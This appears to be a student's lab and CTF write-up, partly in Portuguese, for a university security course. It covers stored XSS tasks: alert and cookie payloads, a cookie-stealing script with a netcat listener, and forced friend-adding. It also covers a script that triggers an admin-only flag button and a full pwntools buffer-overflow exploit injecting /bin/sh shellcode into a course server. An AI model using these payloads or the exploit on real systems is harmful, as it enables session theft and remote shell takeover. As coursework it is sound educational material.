







# Trabalho realizado na Semana #10

## Preparation: Getting Familiar with the"HTTP Header Live"tool

The HTTP Header Live tool can be used to view http requests in the browser:



##  Task 1: Posting a Malicious Message to Display an Alert Window

The attack can be done by placing the scrypt `<script>alert("XSS");</script>` in a profile input, resulting in the
following alert:




## Task 2: Posting a Malicious Message to Display Cookies

The attack can be done by placing the scrypt `<script>alert(document.cookie);</script>` in a profile input, resulting in 
the following alert, showing the user's cookies:



##  Task 3: Stealing Cookies from the Victim’s Machine

You can steal the visiting user's cookies by placing the following code in the profile description:

```html
<script>document.write('');</script>
```

Now, after someone visits your profile you can read their cookies by listening on the port 5555 with netcat: `nc -lknv 5555`



##  Task 4: Becoming the Victim’s Friend

You can force visitors to become your friend by embeding an http request in your profile's description, like so:



Now, Alice visits Samy's profile and adds him as a friend without even noticing!



## CTF: Desafio 1

O objetivo deste desafio era preparar um script de exploit e colocá-lo no formulário do pedido.
Depois, uma admin visitaria a página e esse script seria corrido. Esta era a única forma de obter a flag,
visto que os utilizadores comuns não têm permissões para aceitar o pedido.
Assim sendo, utilizá-mos o seguinte input:

```html
<script>document.querySelector("#giveflag").disabled = false; document.querySelector("#giveflag").click()</script>
```

Depois disto, podemos aceder à página do respetivo pedido e obtemos a flag:



## CTF: Desafio 2

Neste desafio, o objetivo era obter controlo do servidor, executando uma shell.
Para tal, injetamos shellcode capaz de executar uma chamada system("bin/sh"): http://shell-storm.org/shellcode/files/shellcode-827.php
Visto que o programa nos fornece o endereço do buffer, colocamos este shellcode logo no início, facilitando
o resto do processo. Depois, utilizamos um buffer overflow para reescrever o endereço de retorno do main,
sendo retornado para o endereço onde está o nosso shellcode.

Encontra-se aqui o código do exploit:

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
print("Buffer:", addr)

buf = bytearray.fromhex(addr)
buf.reverse()
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)

p.sendline(shellcode + b"a"*77 + fp*2 + buf)

p.interactive()
```
